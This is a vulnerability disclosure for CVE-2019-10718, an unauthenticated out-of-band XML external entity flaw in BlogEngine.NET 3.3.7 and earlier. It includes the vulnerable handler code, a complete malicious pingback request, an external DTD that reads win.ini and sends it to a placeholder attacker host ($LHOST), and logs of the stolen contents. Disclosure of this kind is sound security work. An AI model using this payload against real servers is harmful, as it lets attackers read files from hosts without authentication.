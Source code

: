 An Out-of-band XML External Entity attack, CVE-2019-10718, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/pingback.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* https://github.com/rxtur/BlogEngine.NET/releases

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 18 Jun 2019

## Description

The vulnerable code can be found here:

~~~{.cs command="PingbackHandler.cs"}
331:        private static XmlDocument RetrieveXmlDocument(HttpContext context)
332:        {
333:            var xml = ParseRequest(context);
334:            if (!xml.Contains("<methodName>pingback.ping</methodName>"))
335:            {
336:                context.Response.StatusCode = 404;
337:                context.Response.End();
338:            }
339:
340:            var doc = new XmlDocument();
341:            doc.LoadXml(xml);
342:            return doc;
343:        }
~~~

The string `<methodName>pingback.ping</methodName>` must appear in the body of the request; the XML resolver is not set so External Entities can be processed.

An unauthenticated user can submit a `POST` containing a malicious XML body such as:

~~~
POST /pingback.axd HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 134

<?xml version="1.0"?>
    <!DOCTYPE foo SYSTEM "http://$LHOST/ex.dtd">
    <foo>&e1;</foo>
<methodName>pingback.ping</methodName>
~~~

<pagebreak></pagebreak>

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /ex.dtd HTTP/1.1" 200 326 "-" "-"
~~~

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://$LHOST/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo HTTP/1.1" 404 438 "-" "-"
~~~

## [Exploit](exploit.py)

Requests the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
